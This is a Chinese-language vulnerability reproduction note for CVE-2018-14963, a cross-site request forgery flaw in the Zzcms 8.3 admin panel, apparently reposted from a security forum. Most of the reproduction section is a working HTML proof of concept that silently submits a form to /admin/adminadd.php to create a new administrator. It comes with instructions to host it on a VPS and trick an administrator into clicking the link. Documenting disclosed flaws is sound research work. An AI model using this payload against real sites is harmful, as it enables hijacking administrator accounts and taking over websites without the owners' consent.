 # （CVE-2018-14963）Zzcms 8.3 csrf

> 原文：[https://www.zhihuifly.com/t/topic/3316](https://www.zhihuifly.com/t/topic/3316)

# （CVE-2018-14963）Zzcms 8.3 csrf

## 一、漏洞简介

## 二、漏洞影响

Zzcms 8.3

## 三、复现过程

csrf漏洞，这个问题也是从上个版本就存在的问题，就是整个管理员后台的，所有表单都是没有设置csrf的token的，所以只要涉及到敏感操作的表单，都可以使用csrf来攻击，达成很多攻击利用。

这里的攻击是产生在了/admin/adminadd.php的添加管理员操作，构造的表单如下：

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://0-sec.org:8080/admin/adminadd.php?action=add" method="POST">
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="admins" value="123" />
      <input type="hidden" name="passs" value="123" />
      <input type="hidden" name="passs2" value="123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```

构造好了payload以后，放到vps上，然后诱导管理员点击恶意链接，即可成功添加管理员。

未添加管理员之前：

![image](img/7c95692b1f4c16eba5f5287cd0355251.png)

点击链接之后：

![image](img/37ed21aea871905e46ab6e881bd4c9bb.png)

## 参考链接

> https://www.anquanke.com/post/id/156660